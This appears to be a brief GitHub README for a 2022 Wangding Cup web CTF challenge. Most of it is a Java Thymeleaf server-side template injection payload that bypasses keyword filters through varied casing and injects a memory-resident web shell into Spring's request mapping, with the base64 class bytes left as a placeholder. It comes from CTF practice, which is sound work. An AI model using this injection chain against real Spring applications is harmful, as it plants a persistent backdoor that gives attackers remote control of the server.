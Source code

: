 # CTF-you-can-find-it

2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag


先知文章：https://xz.aliyun.com/t/11688

```java

__${T (org.springframework.cglib.core.ReflectUtils).defineClass("SpringRequestMappingMemshell", 
T (org.springframework.util.Base64Utils).decodeFromUrlSafeString("SpringRequestMappingMemshell.class的UrlSafebase64编码"), 
nEw javax.management.loading.MLet(NeW java.net.URL("http","127.0.0.1","1.txt"),T (java.lang.Thread).currentThread().getContextClassLoader())).doInject(T (org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT",0).getBean(T (Class).forName("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping")))}__::main.x

```
